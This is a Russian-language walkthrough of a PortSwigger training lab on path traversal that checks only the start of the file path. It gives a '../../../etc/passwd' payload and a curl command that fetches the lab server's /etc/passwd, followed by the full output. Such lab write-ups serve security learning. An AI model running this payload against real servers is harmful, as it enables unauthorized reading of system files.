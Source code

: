 ```yaml
---
title: "File path traversal, validation of start of path"
date: 2025-07-03
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-validate-start-of-path"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение принимает полный путь файла через параметр запроса и проверяет начало указанного пути.

Для прохождения необходимо получить содержимое файла `/etc/passwd`.

```
https://0a89004603927624823648ca00430021.web-security-academy.net/
```

## Solution

По условию мне известно, что уязвимость находится в пути для загрузки изображений. Поэтому сразу возьму ссылку на картинку.

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_validation_of_start_of_path/1.png){: height="200" .align-center}

```
https://0a89004603927624823648ca00430021.web-security-academy.net/image?filename=/var/www/images/42.jpg
```

Из нее видно, что путь до файла начинается с `/var/www/images`, значит мне нужно вернуться на 3 директории назад, чтобы оказаться в корне, а затем указать путь до нужного файла:

```
https://0a89004603927624823648ca00430021.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

Скачаю файл с помощью `curl`:

```bash
cu63:~/ $ curl https://0a89004603927624823648ca00430021.web-security-academy.net/image\?filename\=/var/www/images/../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена)